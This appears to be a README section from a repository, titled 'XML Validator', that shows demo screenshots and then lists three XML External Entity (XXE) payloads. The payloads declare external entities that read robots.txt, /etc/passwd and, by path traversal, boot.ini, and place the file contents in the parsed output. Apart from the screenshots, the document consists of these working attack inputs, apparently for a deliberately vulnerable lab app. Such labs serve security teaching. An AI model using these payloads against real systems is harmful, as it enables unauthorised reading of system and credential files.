







#### XML Validator

- Demo















- Payloads

```xml
<?xml version="1.0"?>
<!DOCTYPE change-log [
<!ENTITY systemEntity SYSTEM "robots.txt">
]>
<change-log>
  <text>&systemEntity;</text>
</change-log>
```

```xml
<?xml version="1.0"?>
<!DOCTYPE change-log [
<!ENTITY systemEntity SYSTEM "/etc/passwd">
]>
<change-log>
  <text>&systemEntity;</text>
</change-log>
```

```xml
<?xml version="1.0"?>
<!DOCTYPE change-log [
<!ENTITY systemEntity SYSTEM "../../../../boot.ini">
]>
<change-log>
  <text>&systemEntity;</text>
</change-log>
```
